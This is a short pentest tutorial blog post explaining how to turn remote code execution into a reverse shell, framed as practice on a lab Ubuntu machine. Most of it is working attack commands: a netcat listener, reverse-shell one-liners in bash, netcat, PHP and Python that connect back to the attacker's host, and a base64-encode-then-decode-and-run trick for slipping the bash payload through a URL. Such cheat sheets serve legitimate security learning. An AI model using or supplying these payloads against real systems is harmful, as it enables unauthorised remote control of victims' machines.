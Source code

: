 ```yaml
---
layout: post
title:  "Get reverse shell with RCE"
tags: ['reverse-shell', 'pentest-basics']
---
```


## Introduction

When we are triying to pwn a machine we look for a shell connected to the victim's machine. Sometimes we can found some credentiales or RSA keys to connect via SSH. More times we can't get a SSH shell but we have some [RCE][rce].
In this article we are going to cover different ways to get a reverse shell with [RCE][rce]

Soon, in later articles we are going to be covering how to upgrade these shell's because these are not interactive, means, for example, that if we press TAB we won't get an autocompletion, we will just get a tabulation. 

Also, a good practice before try to connect a reverse shell is try to test this RCE in order to don't confuse if the reverse shell got an error, beacuse we won't know if the problem is about the RCE or the shell.

For the porpous of this post we are going to be using an Ubuntu FocalFossa machine from [osboxes.org ][osboxes]

## Concepts and notation
In order to follow this post we have to make clear some concpets and notation.
When we say $IP we mean the ip address of the attacker's machine. You can choose any port for $PORT, just remember have to be a number between 1 and 65,535. Also the port have to be free, no service have to be running. A common port used to reverse shell is 443

## From attacker's machine
In most of the cases we are going to use netcat in order to listen to the comunication
This will be the only command we execute in our attacker's machine, the rest of them will be executed on the victim's machine.

We have to run:
```bash
nc -lvnp $PORT
```
With this command we are going to be waiting for connecions at this port in our machine.

## From victim's machine
The command that we have to inject are one of those:

### Bash

This is propably the easiest way to do it.
We have to enter this command in the victim's machine

```bash
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```

## Netcat

If netcat is installed in the victmim's machine we can also got a reverse shell
```bash
nc -nv $IP $PORT -e /bin/sh
nc -nv $IP $PORT -e /bin/bash
```
Either of this two commands will work.

## PHP

If we have php installed on the victim's machine we can:
```php
 php -r '$sock=fsockopen("$IP",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Special cases
We just saw a few ways to get a reverse shell but sometimes we have to inject the code on an url. So there's a problem because if we try to inject the bash code we can see that there is some special characters that the web would recognize like /. We wan't to pass that command as a string, so the web can't recognize that characters.

### Encode to base64
First we have encode the command to base64.
```bash
echo $command_to_convet | base64
```
For example we are going to convert:
```bash
bash -i >& /dev/tcp/192.168.1.36/443 0>&1
```
The result:
```bash
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMzYvNDQzIDA+JjEK
```
We notice that now we dont have those special characters that were bothering us, but now we have another problem.
We can't just pass this encode string and expect the victim's machine to recognize IT.

So we have to tell it how to decode and execute, THIS IS THE FINAL URL COMMAND THAT WE HAVE TO INJECT:
```bash
echo $encode_string|base64 -d|bash
```
We just to put the previusly encoded string into the $encode_string variable




[osboxes]: https://www.osboxes.org/
[rce]: https://www.n-able.com/blog/remote-code-execution
